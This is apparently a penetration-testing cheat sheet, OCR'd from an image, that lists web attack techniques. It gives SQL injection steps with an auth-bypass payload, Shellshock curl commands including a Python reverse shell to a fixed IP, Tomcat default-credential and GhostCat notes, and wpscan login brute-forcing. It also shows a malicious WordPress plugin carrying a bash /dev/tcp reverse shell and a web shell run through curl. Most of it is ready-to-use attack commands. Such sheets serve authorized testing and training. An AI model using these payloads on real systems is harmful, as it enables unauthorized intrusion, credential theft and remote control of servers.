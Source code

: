 SQL Injection
1. Test single and double quotes for *500 Internal Server Error* response.
2. Manually test payloads or use Burp Intruder with SQL payloads.
3. Grab password hashes or perform code exec to obtain reverse shell.
* If authentication page is present, ALWAYS try **auth bypass payload** e.g. `' or '1'='1`
* If time-based SQLi, you could also find a script to brute-force password one-char at-a-time.

Apache Shellchock (/cgi-bin/*.cgi])
```bash
# Test if vulnerable
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'VULNERABLE'" http://[target]/cgi-bin/[cgi_file]

# Reverse shell
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

Apache Tomcat
* Default creds at `SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt`
* Port 8009 (AJP) open: CVE-2020-1938 "GhostCat" LFI vulnerability (restricted to paths in Tomcat root).

IIS
* IIS paths may be configured to be Case Sensitive. Take care when navigating / exploiting LFI/RFI or directory traversal.

Wordpress guide
* https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress

Wordpress wpscan
```bash
# normal scan
wpscan --url [target]/wordpress

# brute-force WP logins
wpscan --url [target]/wordpress -U admin -P [/path/to/wordlist]
```

Wordpress reverse shell (https://github.com/wetw0rk/malicious-wordpress-plugin)
```bash
# STEP 1: Create malicious plugin
$ python wordpwn.py [LHOST] [LPORT] N
$ unzip malicious.zip

# STEP 2: Replace generated base64-encoded PHP payload with
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[LHOPST]/[LPORT] 0>&1'"); ?>

# STEP 3: Navigate to [target]/wordpress/wp-content/plugins/malicious/wetw0rk_maybe.php
```

ALTERNATE Wordpress shell
```bash
$ locate plugin-shell.php
$ zip plugin-shell.zip plugin-shell.php
# WP plugins -> add new plugin -> upload zip -> activate plugin
$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
# upload netcat or reverse shell script and execute.
```
